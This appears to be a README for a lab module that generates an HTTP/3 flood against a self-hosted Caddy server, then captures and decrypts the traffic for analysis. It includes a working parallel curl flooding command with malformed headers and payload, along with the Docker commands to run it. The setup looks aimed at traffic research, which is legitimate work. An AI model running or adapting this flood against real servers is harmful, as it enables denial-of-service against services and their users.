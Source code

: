 # HTTP3-Flood Attack

This module launches a high-volume HTTP/3 flooding attack using curl in a Docker container.
The goal is to overwhelm the server with a large number of QUIC packets.

---

## 🔧 Prerequisites

- Ensure the **Caddy server** is running with HTTP/3 support.  
  If not yet set up, refer to the root [`caddysetup`](../docs/CaddySetup.md) for installation and configuration instructions.

- Ensure Docker is installed on the attacker machine.
  Folder structure should include:
  - Dockerfile
  - http3-flood.sh (the attack script)
  - output/ directory (for captured PCAP and TLS keys)

- Modify the Attack Script (if needed)
  Open http3-flood.sh and modify the target URL depending on your setup:
  ```bash
     seq 1 10 | xargs -n1 -P10 timeout 1s curl --insecure -X GET https://<your-server-ip> -H "method: HEAD" -H "method: POST" -H "method: GET" -H "settings: 0" --data "\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00" --http3 -v -o /dev/null
  ```
  - You may also adjust the number of requests and parallel threads using seq and -P.

## ⚙️ Docker Setup and Execution

### 1. Build the Docker Image
```bash
docker build -t curl-http3 .
```
### 2. Run the Attack (and Capture)
```bash
docker run -it \
  --network host \
  --cap-add=NET_ADMIN \
  --cap-add=NET_RAW \
  -e SSLKEYLOGFILE=/tmp/sslkeys.log \
  -v $(pwd)/output:/tmp \
  curl-http3
```
- Inside the Docker container:
```bash
tcpdump -i any -w /tmp/attack.pcap &
bash /root/http3-flood.sh
```
  To stop recording:
```bash
pkill tcpdump
```

- Files will appear in output/ on the host machine:
  - attack.pcap
  - sslkeys.log

### 3. Decrypting QUIC Traffic with Wireshark
- 1. Open output/attack.pcap in Wireshark.

- 2. Go to:
        Edit → Preferences → Protocols → TLS

- 3. Set the log file path:
```bash
(Pre)-Master-Secret log filename: ./output/sslkeys.log
```
- 4. Apply changes and Wireshark will decrypt the HTTP/3 traffic.

## ✅ Optional:
Modify and run the included timer_script.sh in another terminal to monitor server response times during the attack

## 🚀 How to Run

```bash
cd ../../aioquic
./http3-loris/http3-loris.sh
```

